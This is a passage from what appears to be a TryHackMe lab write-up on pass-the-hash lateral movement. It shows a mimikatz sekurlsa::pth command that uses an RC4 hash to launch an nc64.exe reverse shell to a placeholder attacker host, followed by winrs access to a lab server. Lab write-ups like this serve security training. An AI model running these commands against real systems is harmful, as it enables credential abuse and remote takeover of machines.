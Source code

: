 There are two available keys to use which is AES256 and RC4. I choose to pass the RC4 hash key. Before that start a listener first.

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

Pass the RC4 Hash

```powershell
mimikatz # sekurlsa::pth /user:<USER> /domain:<DOMAIN_NAME> /rc4:<HASH> /run:"c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> <ATTACKER PORT>"
```

<figure><img src="../../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

Callback received and the target's credentials are injected and loaded

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

Use Windows Remote Shell (winrs) to connect to the cmd of THMIIS

```powershell
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```
